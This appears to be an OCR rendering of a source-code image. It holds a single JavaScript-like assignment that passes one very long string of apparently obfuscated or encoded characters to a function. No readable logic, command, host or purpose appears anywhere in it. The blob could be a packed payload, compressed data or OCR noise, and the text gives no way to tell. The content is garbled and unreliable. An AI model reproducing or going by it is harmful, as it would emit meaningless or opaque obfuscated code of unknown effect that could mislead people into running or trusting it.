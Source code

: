 s=o(e,"24q5bHK%LNad)&C^aqdb3CKL)bqL%K&RqaLq&)H%a)y%b))L4H%%)&55LHdC5)%_)aqb%)CqH&dK#dKLdNQd%/%Cq%LzL)qCL^^4^baq^%<qa5^dKbKa4LKKd&&qH%)d5N5a&K55Nb^4H5H%&)5NLCCLbqNa<(K^)&4^Kc)K4qK))K4CL^&aHud4^db))H44%a)K4aHNad?CKC)_4a%b))q4a%oTK-adYCKCa.q.Hqa)vKHC)b5qL&^4^LNL^HHqaHdaKda^4dqq))qL%^&CqNL4C)5%NDaKH%a5QLHKKLC^Kd)H4CH&)Nq45L)L^^%qCKqb%C&L5ldb^CKCd44&%%)5q)%d&=oJb^aNQdH^)D4d%5)^qS%&&H5bLdCbbHN^ndKbdC4L%q))YKC^4a5KNdCLbqN)^bHq)NqL%^LC>)LdC^5NN^^)bLLa^45)NK^Mab8)K%N)GKK5d)44N4)&5baq^)bCaLNq^HbbNC^LHTdH4&L)&He&N5C)5CNd^55qNbCb5CNL^ybd)aqaLq&N=&L4C%bm%LC4qaLb&C5KNHo5K%dd^C%N&Lq%%C&dq^L%^bb5a5^)5bNHCKbxNa^q%L)&qdLK&Cq^LCC4qzLH&qq)LK&C55dN4qKb)44NHq&Hq)%C&Nbl%b&qqKL-&a5qL&kdHNdN44Hqa^VbHCdL4eLN&&b5NH&K5qLLCq5)^NHLad4K-uH&dqg)KKdC4NL&^5b)Lb^b5KN{CabqN)_^%4)Kq4NZN}4qNNC?^LaC&^H^d5GCHNdd)Lb&)4q^L)dKq4KL)q4)%b)Cb4a5^LH5)qCa%4dL85L5&%5q%&&^4%Ld^NqK%C&L5qL)CLH)Na^bbCaKqa%bCbq%N5C&5Naq^4bK%K)H4^L4&HqCLCC%5)NC^4H4a%oqKod%45LqC55bLCCLb>N54sKaa)4d%K&55bKCCfqm%a&bq)Ld}%K4da^NKHd&45K4&)5bLHCb5%N&))b%N)^KH4dbC4KC)LqjHqa&1LL&da4bKC)KbAaKS0HKd5&bq5%&4bKd)aq45&)&qNL)C)5%NCdbbCN^_L4&%N&b55LdC4b5NaC&LdCd5^NaCHb%K4^Nb&dd)Nq%N)^LbCaLsqdCq^Lb)^)H4C%L&qq)LKCebC&b^OKLaq^)HKaCud%^C&CCHk)CbHab^d9aL%0&KLdd44KaL:^dLNCq5%L^&&baNNC&bHaa:bKd%H^4baab^CHLdq#)HK^^4)%a)CqLLqb^aagqH5dq+H^aH)a)EKK9dLS^Nq^q5&aba)54aH45bia5^qb)aK^CKK)^5KL%&Cbdb)&4bHd5C65&NqC)bKNC^CKd&4q5Kb&a4K%o)aqqL&^&H&Kq^&KLdH)a%*)&4^%N&4qab#C5bqbCCNHHH)^%43da4:H^&44%%CdqF&KbdC4LCHb4LLLqCH5bLCCLbYN^{&%4)H44%&&)q)N4^5qqLq&bqCLLC35a).4a%ca44NLqdb4HKK)J4a%q)^b5d4&dHadK4HKCap34Hqa)YKHCd%q^NLNCq5N%_HR%L)C)5CNL^qbaa;4^L5)&55N!&)4CLb&uqaLb&)bqa&4a%TNa4N%&)HqCLL&%q&NL))5D%C&L5qLaC)KLdH4%K&&5qHK4&a5qNN)Kq^%L&qq)LbCZH^d54q4C)%q%%CLKqbL5C%54N%^bbGLq4L5bLCCLbedaqk%a&sq&bCN&^%Nb&&b&HC^4b&dqDPK%aC4d%5d^qK%4&%5}Nf&d5CNCdqb4a%^^4ddNkLKKdNqK%^)5qC%dN^4NNKC%b%a8ddH5a4;5Kq%&4d%4&4qL%5)^W^KL)q4)%K&/qaLb4C5aN&C)bKae^Lbd)LqqK)&%bbNaCqbNa)&a5aL)CKbVNLCCKN)b4NL%&L5aK))^4C%L&qqaLLcHH%d4INKq%L^d%aL%3)KNdC4L%q)aqHab^NHCNgCdbqN)^KbCd^p4Ky&%4qK))K4CLb^^HLa&AaHda&4qqn)NqqqC&!54N5NKbbNNabbHN&*K()da,LH^%b^NK&&d;LKLda4bKC)KqHN5^%bdNb^dHKNa^&b)aKe}HL&K55%^&)bHa0^LbNaL^d5aN%C)bKaGKCdH4F%b)%dCqK%o)aqb%)f<Had)4KH)aNq4HHdb_^KKdhq^LL&bq#%^&qq)LKbKaNzKH5aNuHKbHLdaSaKbdC4K%4^wHYaL^^5CaN4KK)NC^aHkaaDb&q54Lq&4)Lq&%a&bqCLKC4K_)M4LK^N^qqK^)aqCL4&a4)%C)CqLLq&aq&aa/b5))Nqq%)&4qaKq&q4bKC)LqDabCCHCa4l&K%d54)Kd)t^u5^NN^LHqdnTHH^da4H%5)&qKNb^bbKa.^aHqadq5L)Nq5%Ld^NqH%C&L5qL)CKb_Na^bHYd4TqH)dK=CK5&dbDNaCab5N^{45)d4CCbLaq^a%b&a5bLaC%uLH%d4HHaHnHHCdN))Had%&d5&dL7qKLa45H%))5q^KL^HqCLLCbHLNK^nbaaqqK%*CGq5L^CN5HNCC&bq%q)44d%^&=5!L)C5b4NKC&bNaqZkHNd%td%C&a5:LaCb5)NN3&%daLO%HadbOCKKC55%aHCabHdbC#5CNqC)bKNCqY%))&q)L))N4K%k)aq&%C&L5qL&CKb8Na^bbCaL4KN)dL55Ka)b4C%KC4H4d4dKHLad4aK5%L4%%a&aqHL)&N5qbLC5baHK^NHLa%l&Ka)b44KN&b&aH^&5b4b5)L54%a&bqCLKCHH5d%odbC)NqL%%)Cqd%^&%bbN5^5b)LbCb5KNUCabqN%4&%K&Kq4LbCb4K%b)Lqq%)&bq^a&^dHdd5^bHaaKS}Hadqn&L)&db4NC^LbHN&iL_CN5v%%Haq^^HbaCiLKp)(q&N5CHqKNK&L5qL)CbKLdqqqKH&4qd%%C8q^Lbdb_5H&d)4K%b)Nq5%C&N5%N4CaHLdHgaKbdC4K%)CdbNNd&a5bLCCLbdN)^KHWaa5_HCdL4qK))KqW%a^bq^LLCq5)NK^*b&ab^CKCdq+CKK)r4a%L)CHLN)&)5LN>^4bbab^LLqd)3KKqda4LKC)aqqa)&&5:L)Cbb5NL^ab)&K;&HadK0C%4)q4&%K&pb)Lb&C5LNbC)b%ax^aNNaC,LKqd&4K%m)aqbL4&L5qL)CLbbNa^bbCaK_5%%CH4q%5)b4C%L&0q&a4p^5NdL4b%5))^CHNd?vaKbd)q&K^))qKLV&abKLCCLbqaCK^HXaa+bK4dL4qK)CKq&%a&bqCLLCq5CNKiqHNab^^HLdH0)KK)Z5aL%)CqNLq&&5KN4Cabaa5^LHqa)4HK}dd4bK^)LqKLd&K5QLa^55CNN^qb))5PQHadbECKL)q4)LL7LqaLH&C5dNqC)bK)k44Hba^!LK5d)4L%w)aqL%C&L5qLCCKb4Na^bH5aL_qH)d%4RKa)b4CLb&qq)LKC45aNHCCbLda^)HKdZY)KbdC4L%qC%qKL.&a5HLCCNbqasyHHPaaAbK^dL45K))K5&%a&bqCLdCq5)NK^}%Cab^CHLd5u)K%)-4adN)CqLLq&&5KN+Cabba:^LHqa)vLK^da4bKC)Kq5N%pHbHN5^dKad5G)55LaqaLL&C4x%q)q4)%K)CH%a)^&Kqa&xLKH)q4HHbaCSLKq)44K%+)a5K&5&L55L)CLb,Na^bKldL*qHCdK44Ka)b4C%LCdq)LNCw5aNbCCbLaq4NHKd4haK%dC4N%q))5%LT&a5bL^CLbqN)^%HqaaTbHCda4CK))KqO%LO5H5d5.)K%aC;db))5qq%Ndb4NKK)D4a%q^%b5a)^HHLa^4*H))5F^%a)KcKKxda4b%q)Lqq%)CL%KLaCb5CNa^qb)aK4qa?db(^KL)54)%K&6qaL^&C5LNqCCbKa4^aHb^5ULKqd)4%%e)aqb%CCq5qL)CKbqN^^bbCaLezKK&H55LH)KqK%L&qq)Lb&NH^dL4LK5)KqKHLdK_aKbdC4K%4C^5&N&^H5Ka5CLbqN)^bHa&HqCL5C=54L5CL^K%)^5HqaNdL5Hdd4KKNd^4LHa)a9)KK)R4LN)CKHKNNuHH^ad4bK5dLCL5%N4^obaaL^&H%dq{&Kd)H4CLdCb5CNL^qb)aK4bNadK4^KL)q4)%b&5b4aH^N5)d%4KKHd)4NK&)H5qL4C45a%q^^qb%C&L5MNK>bHd%e4C%N&qq%Lb&Hq%L)NabzN%^Kb&H)^CH4d&)bK}d&4%%aLKq5LNCb5%L&CK^)aa^^lad&=&K&)b))KN))q5Lb&v5%L5CC5aH4&K55LLCq5)Nb^bK4)%4NHad^Z)KK)*4LN&CNHqNd^CHHdKBqKNdHq0K)a)wKK<daqoKC)LqqLC&d5pLaCbbLNL^qb)aK45HadH